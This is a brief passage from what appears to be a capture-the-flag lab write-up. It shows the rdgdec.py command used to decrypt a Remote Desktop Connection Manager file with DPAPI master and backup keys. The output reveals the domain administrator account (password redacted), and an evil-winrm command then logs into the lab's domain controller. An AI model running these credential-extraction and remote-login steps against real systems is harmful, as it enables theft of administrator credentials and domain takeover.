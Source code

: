 
and then mimikatz will be usefull here but let use [rdgdec.py](https://github.com/tijldeneut/dpapilab-ng/blob/main/rdgdec.py)


    ➜  dpapilab-ng git:(main) python3 rdgdec.py "../jenkins.rdg" --sid="S-1-5-21-641890747-1618203462-755025521-1110" --masterkey="../Roaming/Microsoft/Protect/S-1-5-21-641890747-1618203462-755025521-1110" -k "../dpapi.pvk"

    [+] Profile:  KLENDATHU\administrator
        Username: administrator
        Domain:   KLENDATHU
        Password: <readacted>

AND BOOOOOOOOOMMMMMMMMMMMM!!


    evil-winrm -i dc1.klendathu.vl -u administrator -p <redacted>
